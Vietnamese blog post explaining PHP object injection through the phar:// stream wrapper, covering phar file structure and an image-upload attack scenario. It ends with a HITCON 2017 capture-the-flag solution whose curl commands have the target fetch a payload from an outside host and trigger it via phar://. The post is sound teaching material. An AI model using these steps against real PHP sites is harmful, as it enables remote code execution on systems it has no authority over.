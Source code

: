 ```yaml
---
title: "Php Object Injection Without Unserialize"
date: 2018-09-20T09:17:11+07:00
draft: false
author: "Kev"
comments: true
tags: ["php", "serialization"]
---
```


{{<figure src="/images/posts/phar_background.png">}}

# Stream wrapper

Trong php có khái niệm gọi là stream wrapper, nói về các giao thức trong cách xử lý url, được sử dụng cùng với hàm filesystem  như fopen, copy, file_exists, filesize.

| file:// 		| http:// 		| ftp:// | php:// | zlib:// | data:// | glob:// | phar:// |
| ------------- |:-------------:| ------:|:------:|:-------:|:-------:|:-------:|:-------:|

```
A wrapper is additional code which tells the stream how to handle specific protocols/encodings.
```

# Phar 

Những wrapper này đều có thể lợi dụng để khai thác nhiều loại lỗ hổng. `Phar` wrapper là php archive. Dùng để nén tệp và siêu dữ liệu. Phar không thể sử dụng cho truy cập file từ xa.
Cấu trúc của phar gồm: stub, manifest, file content, signature.

{{<figure src="/images/posts/phar_phar-structure.png">}}

__Stub__

`__HALT_COMPILER()` là hàm dừng thực thi code trong file php.
```
$ php -r "echo 'Test'; __HALT_COMPILER(); echo 'stub';"
> Test
>
```
`Stub` là một đoạn code php đơn giản. Sử dụng `__HALT_COMPILER` mô tả code php, vì không muốn chương trình biên dịch và thực thi đoạn code php phía sau.

__Manifest__

{{<figure src="/images/posts/phar_manifest.png">}}

Các byte đầu mô tả thông tin của phar gồm các thông tin của file nén bên trong, version, ... Trong đó có đoạn byte gần cuối là định dạng của [serialize php](https://www.notsosecure.com/remote-code-execution-via-php-unserialize/).
Vậy, bản chất trong phar đã có serialize và chắc một điều là sẽ có 1 giai đoạn nào đó phải sử dụng đến unserialize. Đó là lúc giải nén các file bên trong của tệp phar.

__File contents__

Chứa nội dung được nén bên trong

__Signature__

Phần chữ kí dùng để xác minh tính toàn vẹn của tệp phar, chỉ cần thay đổi 1 yếu tố trong tệp thì chữ kí này giúp để xác minh sự thay đổi đó.

{{<figure src="/images/posts/phar_xxd-file-phar.png">}}

Chúng ta có thể thấy, phần stub ở trên đầu của file (`<?php __HALT_COMPILER(); ?>`), vì phần này mình có thể tự do tùy chỉnh nên giúp cho việc tạo định dạng file fake rất dễ. Tiếp theo là đoạn `O:7:"example":1:{...` là dữ liệu serialize, lợi dụng điểm này mình có thể override dữ liệu tạo ra payload tấn công object injection. `test.txt`  là nội dung file nén bên trong. Cuối cùng, là đoạn signature để xác minh tính toàn vẹn dữ liệu.


# Kịch bản tấn công

Thông thường nhiều trang web có tính năng upload ảnh và cho tự do chèn địa chỉ ảnh. Cách ngăn chặn những lỗi tấn công không biết trước thường mọi lập trình viên chỉ dùng function `file_exists()` để kiểm tra file. Nhưng đây lại là tác nhân gây ra lỗi object injection dùng phar.

 - _Bước 0_: Khởi tạo payload, cần biết trước trên server có những class nào đã được định nghĩa. Điều này về lý thuyết có vẻ khó, nhưng các ứng dụng lớn thông thường sử dụng những class phổ biến, cho nên có thể khảo sát qua nhiều sourcecode của các trang web lớn.
 - _Bước 1_: vì phar không thể tương tác file từ xa, chúng ta cần upload file payload lên server. Có thể dễ dàng qua mặt các filter bằng cách tạo file phar với stub là header file ảnh.
 - _Bước 2_: Cần tùy chỉnh được url trong các function: include(), fopen(), file_get_contents(), file(), ... Url dạng `phar:///usr/share/payload.phar.jpg`

# Capture The Flag ([orange.tw](https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017))

__Baby^H Master PHP 2017 | HITCON 2017 Quals__

[source code index.php]({{/resources/php_obj_inj_without_unserialize/index.php}})

```
# Get a cookie
$ curl http://host/ --cookie-jar cookie

# Download .phar file from http://orange.tw/avatar.gif
$ curl -b cookie 'http://host/?m=upload&url=http://orange.tw/'

# Get flag
$ curl -b cookie "http://host/?m=upload&url=phar:///var/www/data/$MD5_IP/&lucky=%00lambda_1"
```
